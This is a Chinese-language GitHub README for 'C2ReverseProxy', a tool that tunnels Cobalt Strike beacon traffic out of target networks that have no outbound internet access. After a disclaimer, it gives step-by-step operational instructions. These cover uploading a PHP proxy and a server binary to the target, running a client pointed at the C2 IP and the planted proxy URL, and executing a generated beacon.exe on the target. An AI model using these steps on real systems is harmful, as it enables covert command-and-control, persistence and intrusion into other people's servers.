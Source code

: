 # C2ReverseProxy

ReverseProxy C2 - 在不出网的情况下使cs上线

# Description

在渗透过程中遇到不出网的环境时，可使用该工具建立反向代理通道，使CobaltStrike生成的beacon可以回弹到CobaltStrike服务器。

# 免责声明
该工具仅用于安全自查检测

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。

# Install

```
git clone https://github.com/Daybr4ak/DReverseProxy.git
```

# Usage

```markdown
该文件分为3个部分：
1、C2script  
2、C2ReverseClint
3、C2ReverseServer

使用步骤：
1、将C2script目录下的对应文件，如proxy.php 以及C2ReverseServer上传到目标服务器。
2、使用C2ReverseServer建立监听端口：
./C2ReverseServer  (默认为64535)
3、修改C2script目录下对应文件的PORT，与C2ReverseServer监听的端口一致。
4、本地或C2服务器上运行C2ReverseClint工具
./C2ReverseClint -t C2IP:C2ListenerPort -u http://example.com/proxy.php (传送到目标服务器上的proxy.php路径)
5、使用CobaltStrike建立本地Listener(127.0.0.1 64535)端口与C2ReverseServer建立的端口对应
6、使用建立的Listner生成可执行文件beacon.exe传至目标服务器运行
7、可以看到CobaltStrike上线。
```
# Bug

一个server端口只支持一个cs上线



